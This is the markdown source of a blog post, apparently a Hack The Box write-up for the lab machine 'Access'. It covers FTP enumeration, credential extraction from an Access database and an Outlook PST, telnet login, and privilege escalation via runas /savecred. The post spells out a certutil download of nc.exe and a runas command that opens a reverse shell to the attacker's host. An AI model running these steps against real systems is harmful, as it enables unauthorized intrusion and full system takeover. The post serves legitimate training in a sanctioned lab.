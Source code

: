 ```yaml
---
layout: post
title: Hack The Box - Access
categories: hack-the-box
image: /hackthebox/access/0.png
---
```


<hr>
### Quick Summary 
#### Hey guys today Access retired and this is my write-up. I don't have too much to say about this box , It was a nice easy windows box and a good example of using `runas` in windows , Which is like `sudo` in linux and `doas` in openbsd (we used `doas` in [Ypuffy](/hack-the-box/ypuffy)). It's a windows box and its ip is 10.10.10.98 , I added it to `/etc/hosts` as `access.htb`
![](/images/hackthebox/access/0.png)
<hr>
### Nmap
#### As always we will start with nmap to scan for open ports and services :
`nmap -sV -sT -sC access.htb`
![](/images/hackthebox/access/1.png)
#### Nmap tells us that there's ftp running on port 21 , telnet on port 23 and http on port 80. It also tells us that we can login anonymously to ftp. Let's look at http first.
<br>
<hr>
### HTTP Enumeration 
#### We get this page titled as "MegaCorp" and it only has this image :
![](/images/hackthebox/access/2.png)
#### Sub directories enumeration with `gobuster` and `common.txt` (`/usr/share/wordlists/dirb/common.txt` in kali) only gave us 2 pages , `/aspnet_client` and `/index.html` 
![](/images/hackthebox/access/3.png)
#### `/aspnet_client` gave us `403` Forbidden :
![](/images/hackthebox/access/4.png)
#### And `/index.html` is of course the main page we saw earlier :
![](/images/hackthebox/access/5.png)
#### So now we know that http has nothing , Next thing to check is ftp
<br>
<hr>
### FTP Enumeration
#### Nmap told us earlier that anonymous login on ftp was allowed , After we login we find 2 directories `Backups` and `Engineer`
![](/images/hackthebox/access/6.png)
#### In `Backups` there is only one file called `backup.mdb` , we will type `binary` to set the transfer mode to binary , so we won't get a corrupted file. Then `get backup.mdb` to download it :
![](/images/hackthebox/access/7.png)
#### And in `Engineer` there's a file called `Access Control.zip` :
![](/images/hackthebox/access/8.png)
<hr>
### Extracting credentials from backup.mdb and getting User
#### `backup.mdb` is a Microsoft Access Database , we can check using `file` :
![](/images/hackthebox/access/9.png)
#### We need mdbtools to deal with this database , it can be installed with `apt`
`apt-get install mdbtools`
#### We will use `mdb-tables` to get the table names : 
![](/images/hackthebox/access/10.png)
#### There's an interesting table named `auth_user` , We will use `mdb-export` to get the contents of that table :
`mdb-export backup.mdb auth_user`
![](/images/hackthebox/access/11.png)
#### And it gave us some credentials : 
`admin : admin`
<br>
<br>
`engineer : access4u@security`
<br>
<br>
`backup_admin : admin`
#### By looking at the other `zip` file we will find a file called `Access Control.pst` and it's a password protected file.
![](/images/hackthebox/access/12.png)
#### We already have 2 passwords : `admin` and `access4u@security`. `access4u@security` is the right password.
![](/images/hackthebox/access/13.png)
#### `Access Control.pst` is a Microsoft Outlook email folder : 
![](/images/hackthebox/access/14.png)
#### We can use a tool called `readpst` to be able to read the file :
`readpst Access\ Control.pst`
![](/images/hackthebox/access/15.png)
#### It will create another file called `Access Control.mbox` , Let's `cat` that file :
![](/images/hackthebox/access/16.png)
#### The very first thing we see is this email which has credentials for an account called `security` , password : `4CcessC0ntr0ller`
#### Let's `telnet` into the box with those credentials : 
`telnet access.htb`
![](/images/hackthebox/access/17.png)
#### And we owned user !
<br>
<hr>
### runas and Privilege Escalation
#### As always we will start enumerating the filesystem , There are only 3 users on the box `Administrator` , `Public` and `security`.
![](/images/hackthebox/access/18.png)
#### We are in as `security` and we can't go into Administrator's directory so let's check Public.
#### In the Desktop of `Public` there's a `lnk` called `ZKAccess3.5 Security System`.
![](/images/hackthebox/access/19.png)
#### Let's `type` it and see what's inside it :
![](/images/hackthebox/access/20.png)
#### Of course not the best output , because it's a `lnk` file not a `txt` file , but we can read some stuff , and we notice that there's a `runas` command being excuted as administrator. `runas` allows us to run commands as another user and the option `/savecred` allows us to use the command without asking for password. Looking into Public's desktop is not necessary to know that, we can check by executing `net user administrator`
![](/images/hackthebox/access/21.png)
#### `Password required` is set to `No` , If this was set to `Yes` we wouldn't be able to use `runas` as administrator without knowing the password , However that `lnk` file on Public's desktop was a nice hint.
#### Now we can run a simple HTTP server on our box with python and host `nc.exe` : `python -m SimpleHTTPServer 80` `80` is the port number and it can be anything 
#### You can get `nc.exe` from github [here](https://github.com/diegocr/netcat/blob/master/nc.exe) , I also remember that I included another link in [SecNotes write-up](/hack-the-box/secnotes)
#### Then we will download it on the box :
`certutil -urlcache -split -f http://10.10.xx.xx/nc.exe nc.exe`
![](/images/hackthebox/access/22.png)
#### After that we will set up our nc listener `nc -lvnp 1337` `1337` is the port number and it can be anything.
#### Finally we will use `runas` to get a reverse shell :
`runas /user:Administrator /savecred "nc.exe -c cmd.exe 10.10.xx.xx 1337"`
![](/images/hackthebox/access/23.png)
#### Let's check our listener :
![](/images/hackthebox/access/24.png)
#### We have a shell.
![](/images/hackthebox/access/25.png)
#### And we owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - Zipper](/hack-the-box/zipper/)
#### Next Hack The Box write-up : [Hack The Box - Ethereal](/hack-the-box/ethereal/)
<hr>
